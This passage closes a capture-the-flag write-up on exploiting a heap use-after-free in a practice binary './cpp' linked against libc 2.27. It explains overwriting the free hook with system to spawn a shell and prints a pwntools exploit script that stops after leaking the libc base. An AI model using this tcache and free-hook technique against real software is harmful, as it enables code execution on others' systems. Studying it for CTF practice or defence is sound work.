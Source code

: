 As you can see, we were able to write over the free hook with the address of `system`. With that we will be able to get a shell by having `free` called with a chunk that points to `/bin/sh` (which happens when we add a chunk).

## Exploit

Putting it all together, we get the following exploit. I ran this in Ubuntu `18.04`:

```
from pwn import *

target = process('./cpp', env={"LD_PRELOAD":"./libc-2.27.so"})

#gdb.attach(target)
#gdb.attach(target, gdbscript = 'pie b *0x167e')
#gdb.attach(target, gdbscript = 'pie b *0x1475')

libc = ELF("./libc-2.27.so")

# Establish functions to handle I/O with target
def add(name, buff):
    print target.recvuntil("Exit\n")
    target.sendline("1")
    target.sendline(name)
    print target.recvuntil("buf:")
    target.sendline(buff)
    print target.recvuntil("Done!")

def remove(index):
    print target.recvuntil("Exit\n")
    target.sendline("2")
    print target.recvuntil("idx: ")
    target.sendline(str(index))
    print target.recvuntil("Done!")

def view(index):
    print target.recvuntil("Exit\n")
    target.sendline("3")
    print target.recvuntil("idx: ")
    target.sendline(str(index))
    leak = target.recvline()
    leak = leak.strip("\n")
    leak = u64(leak + "\x00"*(8-len(leak)))
    print target.recvuntil("Done!")
    return leak

# First we need a libc infoleak

# Initialize the chunks to fill up the tcache (remember chunks get freed when we remove objects)
add("0"*8, "1"*8)
add("75395128" + "2"*0x400, "15935728")
add("3"*8, "4"*8)
add("5"*8, "6"*8)
add("7"*8, "8"*8)

remove(4)
remove(3)
remove(2)

# Free a chunk that will end up in the smallbin, and that will allow us to get the UAF
remove(0)

# Use the UAF to get the libc infoleak to the main arena, calculate the base of libc
libcBase = view(0) - 0x3ebcd0
```